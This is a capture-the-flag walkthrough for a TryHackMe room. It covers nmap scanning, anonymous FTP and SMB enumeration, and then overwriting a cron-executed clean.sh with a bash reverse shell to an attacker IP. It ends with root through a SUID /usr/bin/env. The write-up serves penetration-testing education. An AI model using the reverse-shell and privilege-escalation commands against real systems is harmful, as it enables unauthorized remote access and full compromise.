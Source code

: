 ![Screenshot 2023-09-01 232811.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/KHhJB15.png)

![Screenshot 2023-09-01 232811.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/876a5185c429c9703e625cb48c39637b.png)

# Anonymous

![Screenshot 2023-09-01 232811.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_232811.png)

- **Difficulty:** Medium
- **Creator:** [Nameless0ne](https://tryhackme.com/p/Nameless0ne)

The Anonymous Playground CTF is a medium level room on TryHackMe that includes exploitation of FTP, SMB, cron jobs, and SUID binaries. It has 4 tasks and 2 flags. The tasks can be completed just from basic enumeration of the target machine. The machine is vulnerable to a variety of attack

vectors, including:

- **FTP**
- **SMB**
- **cron jobs**
- **Setuid binaries**

## Walkthrough

## Network Scanning

```bash
nmap -A -T4 -Pn 10.10.200.152 -oN nmap_result.txt
```

![Screenshot 2023-09-01 232530.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_232530.png)

Nmap detected FTP service running on port 21, SSH service on port 22, SMB on port 139 and 445. The Nmap also detected that Anonymous Login is also enabled on the application that makes it accessible right away.

### **Enumeration**

Logging into FTP

```bash
ftp 10.10.152.93
ls -la
cd scripts
ls -la
get clean.sh
get removed_files.log
get to_do.txt
```

![Screenshot 2023-09-01 233341.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_233341.png)

The to_do.txt file was a reminder for disabling Anonymous Login. It is not useful from the attacker’s perspective. The removed_files.log file contained logs from the clean-up script indicating that there is nothing to delete.

![Screenshot 2023-09-01 233937.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_233937.png)

The clean. sh script is a shell script that seemed to perform log entries and delete files from the /tmp/ directory.

![Screenshot 2023-09-01 234119.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_234119.png)

With nothing more to enumerate from the FTP service, the enumeration of SMB service was initiated. Smbclient was used to perform an Anonymous login on the Target Machine. It had a share by the name of pics. When accessed, the pics share contained two images: corgo2.jpg and puppos.jpeg. Both of those images were downloaded to the local Kali Machine.

```bash
smbclient -L \\anonymous -I 10.10.3.52
smbclient //10.10.3.52/pics
ls
get corgo2.jpg
get puppos.jpeg
```

![Screenshot 2023-09-01 234529.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_234529.png)

After opening the image files, it was clear that SMB was supposed to be a rabbit hole. Both images are not important from the attacker’s perspective.

![Screenshot 2023-09-01 234850.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_234850.png)

![Screenshot 2023-09-01 234918.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_234918.png)

## **Exploitation**

Back to the FTP service, it was detected that it was possible to upload files in the scripts directory. This meant that the attacker can create a clean.sh script with reverse shellcode inside it and then replace it with the one that is currently located on the target machine and then wait for the script to get executed.

```bash
cat > clean.sh
#!/bin/bash
bash -i >& /dev/tcp/10.17.11.201/5555 0>&1
```

Before uploading the script, a netcat listener was started on the Local Kali Machine to capture the shell that would be invoked after the [clean.sh](http://clean.sh/) script gets executed on the target machine. The port number mentioned inside the reverse shell script must be used while invoking the netcat listener. After connecting to the FTP service, the [clean.sh](http://clean.sh/) script was replaced using the put command.

```bash
ftp 10.10.3.52
cd scripts
put clean.sh
```

The netcat listener captured the reverse shell that was generated due to the execution of the [clean.sh](http://clean.sh/) script on the target machine. The session generated belonged to the namelessone user on the target machine. After listing the contents of the user’s home directory, the user.txt flag was found.

![Screenshot 2023-09-01 235748.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-01_235748.png)

**Privilege Escalation**

The Post Exploitation Enumeration to find the methods to elevate the privilege on the access started with enumerating the SUID bits. Find command is used for this kind of enumeration. It was observed that /usr/bin/env was assigned to SUID. It meant it can be used to exploit the machine and get elevated access.

```bash
find / -perm -u=s 2>/dev/null
```

![Screenshot 2023-09-02 000105.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-02_000105.png)

![Screenshot 2023-09-02 000224.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-02_000224.png)

```bash
/usr/bin/env /bin/sh -p
```

When executed on the namelessone’s shell, a root shell was invoked. This was checked using the whoami command. Finally, to finish the challenge the root flag was read using the cat command.

![Screenshot 2023-09-02 000512.png](Anonymous%20125ab00f68dc466eb806178faa3a55bb/Screenshot_2023-09-02_000512.png)